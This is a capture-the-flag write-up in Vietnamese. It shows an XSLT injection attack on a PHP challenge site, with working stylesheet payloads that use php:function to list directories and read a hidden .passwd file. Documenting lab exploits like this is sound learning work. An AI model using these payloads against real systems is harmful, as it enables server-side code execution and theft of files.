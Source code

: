 Bắt request với Burp Suite, có 1 tham số được gửi kèm là

> xsl= style1.xsl

Vậy có thể liên tưởng đến LFI hoặc RFI, nhưng mình nghiêng về RFI hơn vì đề bài có hint Code Excution

<b>Kiến thức cần biết: </b>Trong XSLT có thẻ `value-of`cho phép thực thi câu lệnh PHP, chỉ cần thêm cặp giá trị `xmlns:php="http://php.net/xsl` vào thẻ xml 

Vào pastebin thử 1 đoạn code đơn giản:

```xml
<?xml version="1.0" encoding="UTF-8"?><xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
<xsl:template match="/">
<xsl:value-of select="php:function('show_source','index.php')"/>
</xsl:template>
</xsl:stylesheet>
```

Không ra gì cả, vậy nghĩ đến phương án dùng `scandir` để xem có những file nào trong folder hiện tại:

```xml
<?xml version="1.0" encoding="UTF-8"?><xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
<xsl:template match="/">
<xsl:value-of select="php:function('scandir','./')"/>
</xsl:template>
</xsl:stylesheet>
```

nó chỉ trả về mỗi `Array`, hmmm

<b>Kiến thức cần biết:</b>Thay vì dùng `scandir`, có thể dùng cặp `opendir`,`readdir`, dựa theo [link](https://security.stackexchange.com/questions/170712/execute-a-php-function-that-returns-an-array-from-an-xsl-file), có vẻ như người hỏi cũng đang làm chall xslt này

```xml
<?xml version="1.0" encoding="UTF-8"?><xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
<xsl:template match="/">
<xsl:value-of select="php:function('opendir','./')"/>
<xsl:value-of select="php:function('readdir')"/>
<xsl:value-of select="php:function('readdir')"/>
<xsl:value-of select="php:function('readdir')"/>
<xsl:value-of select="php:function('readdir')"/>
<xsl:value-of select="php:function('readdir')"/>
<xsl:value-of select="php:function('readdir')"/>
<xsl:value-of select="php:function('readdir')"/>
<xsl:value-of select="php:function('readdir')"/>
<xsl:value-of select="php:function('readdir')"/>
<xsl:value-of select="php:function('readdir')"/>
<xsl:value-of select="php:function('readdir')"/>
<xsl:value-of select="php:function('readdir')"/>
<xsl:value-of select="php:function('readdir')"/>
<xsl:value-of select="php:function('readdir')"/>
<xsl:value-of select="php:function('readdir')"/>
<xsl:value-of select="php:function('readdir')"/>
<xsl:value-of select="php:function('readdir')"/>

</xsl:template>
</xsl:stylesheet>
```

Ở đây dùng nhiều `readdir` vì nó không in ra 1 lúc hết tất cả mọi thứ trong folder, nếu hết nó sẽ in ra false. Kết quả:

> Resource id #6..beers.xml._nginx.http-level.incstyle1.xsl._nginx.server-level.incstyle2.xsl._firewall.style3.xslindex.php._php-fpm.pool.inc.6ff3200bee785801f420fba826ffcdeefalsefalsefalsefalsefalse

Thư mục cuối nhìn khả nghi nhất:

```xml
<?xml version="1.0" encoding="UTF-8"?><xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
<xsl:template match="/">
<xsl:value-of select="php:function('opendir','.6ff3200bee785801f420fba826ffcdee')"/>
<xsl:value-of select="php:function('readdir')"/>
<xsl:value-of select="php:function('readdir')"/>
<xsl:value-of select="php:function('readdir')"/>
<xsl:value-of select="php:function('readdir')"/>

</xsl:template>
</xsl:stylesheet>
```

trả về:

> Resource id #6...passwd

Ok vậy đọc file passwd là ra flag:

```xml
<?xml version="1.0" encoding="UTF-8"?><xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
<xsl:template match="/">
<xsl:value-of select="php:function('show_source','.6ff3200bee785801f420fba826ffcdee/.passwd')"/>

</xsl:template>
</xsl:stylesheet>
```

